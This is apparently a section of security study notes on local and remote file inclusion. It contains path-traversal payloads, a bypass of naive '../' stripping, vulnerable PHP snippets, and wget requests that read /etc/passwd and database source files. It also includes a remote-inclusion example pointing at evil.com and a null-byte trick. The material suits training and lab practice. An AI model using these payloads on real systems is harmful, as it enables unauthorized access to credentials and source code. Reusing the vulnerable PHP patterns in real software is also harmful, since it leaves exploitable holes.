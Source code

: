 #### 2.1. About

- local and remote file inclusion
- payload examples: 
  - `https://site.com/?file=../../../../../../../etc/hosts`
  - `https://site.com/?file=http://evil.com?x.txt` (where `x.txt` contains malicious code)

Exercise: `https://pentesterlab.com/exercises/php_include_and_post_exploitation`


#### 2.2. Input sanitization bypass for local file inclusion

As part of the triage process every `../` in the application gets removed.
```python
>>> input = "../../../../../../etc/passwd"
>>> print(input.replace('../', ''));
etc/passwd
```

We can bypass the protection as:
```python
>>> input = "..././..././..././..././..././..././etc/passwd"
>>> print(input.replace('../', ''));
../../../../../../etc/passwd
>>> input = "....//....//etc/passwd"
>>> print(input.replace('../', ''));
../../etc/passwd
```
File path traversal was possible because we abused the function that is suppose to sanitize the user-input.

#### 2.3. PHP examples

##### Example 1:

Code:
```php
$upload_dir = '/var/www/files/';
$file = $_GET['file'];
$path = $upload_dir . $file;
$handle = fopen($path, 'rb');
```

Requests:
```
# read system files
$ wget $target/a.php?file=../../../../../../../../../../../../etc/passwd -O passwd_r

# read source code of arbitrary file
$ wget $target/a.php?file=../../../../../../../../../../var/www/sqli/db.php' -O db.php -q
```

##### Example 2:

Code:
```php
$file = $_GET['file'];
if (!(strstr($file,"/var/www/files/"))) die();
$handle = fopen($file, 'rb');
```

Request:
```
# file parameter value must start with '/var/www/files/'
$ wget $target/b.php?file=/var/www/files/../../../../../../../../../../var/www/sqli/db.php' -O db.php -q
```

##### Example 3:

Code:
```php
$upload_dir = '/var/www/files/';
$file = $_GET['file'];
$path = $upload_dir . $file. ".png"; # will append extension
```

Request:
```
# append NULL byte to payload and bypass prepended file extension (PHP < 5.3.4)
$ wget $target/c.php?file=../../../../../../../../../../../../../../var/www/sqli/db.php%00' -O db.php -q
```

Test on PHP-7.3.14 (`https://www.php.net/manual/en/security.filesystem.nullbytes.php`):
```
php > $path="../../etc/passwd\0";
php > echo $path;
../../etc/passwdphp >
php > file_exists($path);

Warning: file_exists() expects parameter 1 to be a valid path, string given in php shell code on line 1

Call Stack:
  312.3228     388488   1. {main}() php shell code:0
  312.3228     388488   2. file_exists() php shell code:1
```


